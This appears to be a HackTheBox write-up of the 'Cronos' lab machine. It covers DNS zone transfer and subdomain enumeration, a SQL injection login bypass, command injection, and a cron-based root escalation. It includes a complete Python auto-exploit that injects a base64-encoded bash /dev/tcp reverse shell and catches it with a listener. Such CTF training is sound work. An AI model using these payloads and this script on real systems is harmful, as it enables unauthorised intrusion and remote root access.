

This box was an medium box from HackTheBox. It's OS is Linux and the entry point is with Web App. We have a vulnerable login panel where we can easily byppass it with a simple SQLInjection.

After get the shell we found a cron running as root. Inject a php code in it and be happy.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.13
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 53

We found the port 53 opened, we could try to make a reverse dns on this domain

```sh
nslookup
server 10.10.10.13
10.10.10.13
```


We found that the domain in `cronos.htb`, so let's try to reverse it

```sh
dig axfr cronos.htb @10.10.10.13
```


Sure. We got `admin.cronos.htb` and `www.cronos.htb`

Let's add then to our /etc/hosts


### Subdomain Brute Force

We could try a subdomain bruteforce in this server also

```sh
gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt 
```


And with wfuzz

```sh
wfuzz -u http://10.10.10.13 -H "Host: FUZZ.cronos.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 11439
```


Found just the same we already know.

## www.cronos.htb

We try to open it on the browser


Seems to be a kind of blog built in laravel

## admin.cronos.htb

We open the admin.cronos.htb and found a login prompt


We try admin/admin but got an error


We just try to bypass it with a list of payloads for auth bypass

```sh
wfuzz -z file,list.txt -d "username=adminFUZZ&password=admin" --hc 200 http://admin.cronos.htb/
```


And a bunch of them worked

Let's use the simplest one

`'#`


And we are in


And with a simple payload we got RCE


And a reverse shell


Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_cronos.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Cronos - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# b64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Create the payload
def createPayload(lhost,lport):
    print("[+] Let's creat the payload !! [+]")
    global payload
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    payload = str(b64e(payload))

# Let's login as admin on the app
def LoginAdmin(rhost):
    print("[+] Let's login as admin ! [+]")
    url = "http://%s:80/" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin'#", "password": "admin"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In !! [+]")

def getReverse(rhost,lhost,payload):
    print("[+] Let's get the reverse shell !! [+]")
    url = "http://admin.cronos.htb:80/welcome.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"command": "traceroute", "host": ";echo %s | base64 -d | bash" %payload}
    requests.post(url, headers=headers, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Cronos AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the payload
    createPayload(lhost,lport)
    # Login as admin
    LoginAdmin(rhost)
    # Get Reverse shell
    getReverse(rhost,lhost,payload)

if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# cronos -> root

We see on crontab that the script `artisan` is executed every minute on the system


And it's writable by www-data


We add a reverse shell on the top of it


Wait one minute, and got root


# Code Analysis

We see the index.php where the SQLI is happening


It's just passing what we have put as username to the sql query. The password is being hashed in md5, so it's not vulnerable.